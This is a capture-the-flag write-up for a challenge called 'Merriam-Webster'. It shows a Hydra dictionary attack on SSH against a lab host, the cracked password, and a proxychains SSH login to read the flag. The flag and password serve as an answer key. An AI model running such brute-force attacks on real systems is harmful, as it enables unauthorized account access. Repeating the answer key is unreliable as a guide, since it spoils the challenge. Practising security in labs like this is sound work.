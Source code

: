 # Merriam-Webster
100

You have found an email, instructing a user that he needs to use a more secure password.

To: bgates@acme.local From: IT Security Team

Subject: Using secure passwords

Bill, Please update your credentials to comply with our company's policy.

The security team noted this as an issue on the CentOS box with address 192.168.x.6

Also, we look forward to seeing you at the end of summer party.

Regards, Belinda

# Flag
```
RTXFLAG{I_Heart_Apple}
```

# Solution
There is an ssh service running on port 22. Let's try a disctionary attack using Hydra.
```
$ hydra -l bgates -P  /usr/share/wordlists/rockyou.txt 192.168.5.6 ssh 
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-09-12 23:42:01
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://192.168.5.6:22/
[STATUS] 465.00 tries/min, 465 tries in 00:01h, 14343934 to do in 514:08h, 16 active
^[[A[STATUS] 481.00 tries/min, 1443 tries in 00:03h, 14342956 to do in 496:60h, 16 active
[STATUS] 460.86 tries/min, 3226 tries in 00:07h, 14341173 to do in 518:39h, 16 active
[STATUS] 464.67 tries/min, 6970 tries in 00:15h, 14337429 to do in 514:16h, 16 active
[STATUS] 463.97 tries/min, 14383 tries in 00:31h, 14330016 to do in 514:46h, 16 active
[STATUS] 463.77 tries/min, 21797 tries in 00:47h, 14322602 to do in 514:44h, 16 active
[STATUS] 464.19 tries/min, 29244 tries in 01:03h, 14315155 to do in 513:59h, 16 active
[STATUS] 464.73 tries/min, 36714 tries in 01:19h, 14307685 to do in 513:07h, 16 active
[STATUS] 464.49 tries/min, 44127 tries in 01:35h, 14300272 to do in 513:07h, 16 active
[STATUS] 464.32 tries/min, 51540 tries in 01:51h, 14292859 to do in 513:03h, 16 active
[STATUS] 463.89 tries/min, 58914 tries in 02:07h, 14285485 to do in 513:15h, 16 active
[22][ssh] host: 192.168.5.6   login: bgates   password: theworldismine
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-09-13 01:58:32
```

Password Found - theworldismine

SSH into bgates account and get the flag
```
$ proxychains ssh bgates@192.168.5.6
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.14
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  192.168.5.6:22  ...  OK
bgates@192.168.5.6's password: 
Last login: Mon Sep 13 06:41:58 2021 from 192.168.5.102
[bgates@Acme-Lin1 ~]$ ls
flag.txt
[bgates@Acme-Lin1 ~]$ cat flag.txt
RTXFLAG{I_Heart_Apple}
```